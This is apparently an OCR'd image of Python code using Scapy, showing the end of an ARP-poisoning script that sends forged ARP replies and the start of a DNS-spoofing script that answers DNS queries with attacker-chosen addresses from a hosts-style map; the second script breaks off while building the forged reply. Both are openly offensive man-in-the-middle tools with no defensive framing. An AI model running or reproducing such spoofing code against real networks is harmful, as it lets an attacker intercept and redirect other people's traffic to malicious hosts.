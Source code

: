```
        print "Fooling " + packet[ARP].psrc + " that " + \
              packet[ARP].pdst + " is me"
        sendp(answer, iface=sys.argv[1])
 
sniff(prn=arp_poison_callback,
      filter="arp",
      iface=sys.argv[1],
      store=0)
 
```

 

```bash
#!/usr/bin/env python
# dns-spoofing
#
# A simple DNS spoofing script
# It's batter with ARP-Spoofing
# and delete the local hosts file
# at same time.
# The hosts-file like this:
# 123.12.23.121 www.google.com
#
 
import sys
import getopt
import scapy.all as scapy
 
dev = "eth0"
filter = "udp port 53"
file = None
dns_map = {}
 
def handle_packet(packet):
    ip = packet.getlayer(scapy.IP)
    udp = packet.getlayer(scapy.UDP)
    dns = packet.getlayer(scapy.DNS)
 
    # standard (a record) dns query
    if dns.qr == 0 and dns.opcode == 0:
        queried_host = dns.qd.qname[:-1]
        resolved_ip = None
 
        if dns_map.get(queried_host):
            resolved_ip = dns_map.get(queried_host)
        elif dns_map.get('*'):
            resolved_ip = dns_map.get('*')
         
        if resolved_ip:
            dns_answer = scapy.DNSRR(rrname=queried_host + '.',
                                     ttl = 330,
                                     type="A",
                                     rclass="IN",
                                     rdata=resolved_ip)
            dns_reply = scapy.IP(src=ip.dst, dst=ip.src) / \
                    scapy.UDP(sport=udp.dport,dport=udp.sport) / \
                    scapy.DNS(
                        id = dns.id,
                        qr = 1,
                        aa = 0,
                        rcode = 0,
                        qd = dns.qd,
                        an = dns_answer
```